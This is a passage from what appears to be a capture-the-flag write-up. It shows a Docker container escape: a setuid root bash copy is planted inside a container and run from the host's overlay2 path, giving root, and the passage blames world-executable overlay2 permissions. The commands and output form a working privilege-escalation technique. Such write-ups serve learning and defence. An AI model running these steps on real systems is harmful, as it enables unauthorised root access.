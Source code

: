 It looks like two containers are running, on my machine it was the second one. I was able to figure this out by looking at the file system and recognizing the webserver we pwnd earlier. 
```
marcus@monitorstwo:~$ ls /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/var/www/html
about.php                   color_templates.php         include                 README.md                                     aggregate_graphs.php        data_debug.php              index.php               remote_agent.php
aggregate_items.php         data_input.php              install                 reports_admin.php
aggregate_templates.php     data_queries.php            lib                     reports_user.php
auth_changepassword.php     data_source_profiles.php    LICENSE                 resource
```

Next, I'll copy `/bin/bash` to `/tmp/bash` and permit it to run as the owner (root). In this example, I did it via the set uid permission rather than the Linux capabilities way.
```
root@50bca5e748b0:/tmp# cp /bin/bash .
root@50bca5e748b0:/tmp# chown root:root bash
root@50bca5e748b0:/tmp# chmod 4755 bash
```

Finally, I'll run that binary back on the host with those elevated permissions.
```
marcus@monitorstwo:~$ /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/tmp/bash -p
bash-5.1# id
uid=1000(marcus) gid=1000(marcus) euid=0(root) groups=1000(marcus)
```

Now that I am root I can confirm the misconfiguration of the docker file system. That last x is the 1 in 701, giving anyone execution permissions. 
```
bash-5.1# ls -la /var/lib/docker/overlay2/                                                                                    
total 148                                                                                                                     
drwx-----x 37 root root 4096 Sep 12 03:18 . 
```
